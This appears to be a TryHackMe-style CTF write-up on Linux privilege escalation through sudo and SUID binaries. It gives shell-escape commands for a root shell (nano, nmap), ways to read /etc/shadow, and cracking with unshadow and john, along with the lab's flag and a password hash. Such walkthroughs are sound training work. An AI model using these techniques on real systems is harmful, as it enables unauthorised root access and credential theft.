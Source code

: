 * * * 

## Task 6 - Privilege Escalation: Sudo

- ``sudo -l`` we can see what commands we can run as sudoer
- [GTFO Bins](https://gtfobins.github.io/) provides info on how we can use these programs for leverage.

##   Answer the questions below

**How many programs can the user "karen" run on the target system with sudo rights?**

- 3

**What is the content of the flag2.txt file?**

- THM-402028394

**How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?**

- ``sudo nmap --interactive``

**What is the hash of frank's password?**

We get access to root via nano:
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
cat /etc/shadow
- $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

* * * 

## Task 7 - Privilege Escalation: SUID 

- ``find / -type f -perm -04000 -ls 2>/dev/null`` will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with [GTFOBins](https://gtfobins.github.io/#+suid). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list.

##   Answer the questions below

**Which user shares the name of a great comic book writer?**

- ``cat /etc/passwd``
- gerryconway

**What is the password of user2?**

We have to get access to /etc/shadow and /etc/passwd in order to feed it to john's ``unshadow`` tool.

1. ``sudo -l``
2. /usr/bin/base64 has the SUID bit set. 
3. ``base64 /etc/shadow``
4. decrypt and save this to shadow.txt and save /etc/passwd to passwd.txt 
5. ``unshadow passwd.txt shadow.txt > passwords.txt``
6. ``john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt``
